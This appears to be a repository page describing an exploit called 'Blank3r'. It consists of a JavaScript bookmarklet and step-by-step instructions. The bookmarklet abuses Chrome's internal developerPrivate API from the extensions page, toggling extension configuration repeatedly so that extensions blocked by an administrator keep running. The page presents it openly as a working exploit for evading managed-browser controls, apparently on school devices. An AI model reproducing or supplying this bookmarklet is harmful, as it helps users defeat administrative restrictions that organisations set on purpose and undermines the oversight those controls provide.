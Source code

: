 ```yaml
---
title: unblock-extensions-blank3r
---
```


-e 
Reload extensions continuously with Blank3r!

Code:
javascript:let shim = false;var ids = prompt("Extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);

Instructions:
1. Bookmark the code above.
2. Navigate to chrome://extensions.
3. Click on an extension that is from the Chrome Web Store > Details.
4. In the URL bar, copy the string of letters and numbers after the /?id=.
5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore, try again.
If it is a blank screen, click the bookmarklet.
6. Paste the ID of the extension into the prompt separated by commas.
7. You're done!

Notes:
If you can't install extensions then you can't do this exploit.
If you close the tab, the exploit will stop working.

Credits:
CoolElectronics/velzie
Titanium Network

